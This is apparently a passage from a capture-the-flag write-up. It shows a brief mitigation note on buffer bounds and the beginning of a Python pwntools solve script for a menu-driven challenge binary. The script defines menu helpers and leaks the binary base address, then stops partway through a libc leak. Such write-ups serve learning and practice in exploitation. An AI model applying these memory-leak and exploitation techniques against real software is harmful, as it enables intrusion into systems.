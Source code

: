 # 5. Mitigation<a id="mitigation"></a>
Check the bounds of used buffers and use variables saving these bounds instead of hardcoding magic numbers one by one.

# 6. Solve script<a id="solve script"></a>
```python
#!/usr/bin/env python3
from string import Template
import glob
from pwn import *

exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe
context.log_level = 'debug'

# must be dict
ENV_VARS = None

gdbscript = """
set max-visualize-chunk-size 0x100
continue
"""

def create_level(io, idx):
    io.sendlineafter(b"Choice:", b"1")
    io.sendlineafter(b"Enter level index: ", idx)

def edit_level(io, data):
    io.sendlineafter(b"Choice:", b"2")
    io.sendlineafter(b"Enter level data: ", data)

def test_level(io):
    io.sendlineafter(b"Choice:", b"3")
    return get_new_data(io)

def explore(io, idx):
    io.sendlineafter(b"Choice:", b"4")
    io.sendlineafter(b"index:", idx)

def reset(io):
    io.sendlineafter(b"Choice:", b"5")

def exit(io):
    io.sendlineafter(b"Choice:", b"6")

def get_new_data(io):
    return io.recvuntil("6. Exit\n")

def base_leak(io):
    start = get_new_data(io)
    base_leak = get_string_between(start, b"A welcome gift: ", b"\n")
    base_offset = 0x1662
    base_addr = int(base_leak, 16) - base_offset
    validate_leaked_addresses(io, bin_base=base_addr)
    return base_addr

def libc_leak(io, libc_start_main_leak):
    with_offset_to_libc_start_main = libc_start_main_leak - 0x8 * 0x8
```